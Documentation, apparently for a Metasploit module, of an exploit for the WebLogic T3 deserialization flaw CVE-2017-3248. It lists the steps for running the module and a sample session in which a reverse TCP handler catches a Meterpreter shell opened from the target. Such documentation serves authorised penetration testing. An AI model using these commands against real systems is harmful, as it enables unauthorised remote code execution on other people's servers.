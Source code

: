 ## Description
 Oracle Weblogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.1 are vulnerable to a deserialization vulnerability (CVE 2017-3248) in the core Components subcomponent due to unsafe deserialization of Java objects by the RMI registry and produce a JRMP connection from the target, which can be used to execute code on vulnerable systems. An unauthenticated user with network access via T3 could exploit the vulnerability. This module has been tested against Oracle Weblogic Server v10.3.6.0 and v12.1.3.0 running on Windows 7 x64 using JDK v7u80.

## Vulnerable Application
 Oracle Weblogic Server v10.3.6.0, v12.1.3.0, and v12.2.1.1.

## Verification Steps
 1. `./msfconsole -q`
 2. `use exploit/multi/misc/weblogic_deserialize_unicastref`
 3. `set srvhost <srvhost>`
 4. `set srvport <srvport>`
 5. `set rhosts <rhost>`
 6. `set rport <srvport>`
 7. `exploit`
 8. `sessions -i 1`

## Scenarios
### Tested on Windows 7 x64 running Oracle Weblogic Server 10.3.6.0 and 12.1.3.0 on JDK v7u80
 ```
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > set srvhost 192.168.192.136
 srvhost => 192.168.192.136
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > set srvport 8888
 srvport => 8888
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > set rhost 192.168.192.6
 rhost => 192.168.192.6
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > set rport 7001
 rport => 7001
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > exploit
 [*] Exploit running as background job 17.

 [*] Started reverse TCP handler on 192.168.192.136:4444 
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > [*] 192.168.192.6:7001 - Sending handshake...
 [*] 192.168.192.6:7001 - Sending T3 request object...
 [*] 192.168.192.6:7001 - Sending client object payload...
 [*] 192.168.192.6:7001 - Sending payload to client: 192.168.192.6
 [*] Sending stage (179779 bytes) to 192.168.192.6
 [*] Meterpreter session 9 opened (192.168.192.136:4444 -> 192.168.192.6:49283) at 2018-12-14 11:45:44 -0800
 [*] 192.168.192.6:7001 - Server stopped.
 msf exploit(multi/misc/weblogic_deserialize_unicastref) > sessions -i 9
 [*] Starting interaction with 9...

 meterpreter > sysinfo
 Computer        : GIOTTO-HS-W7
 OS              : Windows 7 (Build 7600).
 Architecture    : x64
 System Language : en_US
 Domain          : WORKGROUP
 Logged On Users : 2
 Meterpreter     : x86/windows

 ```
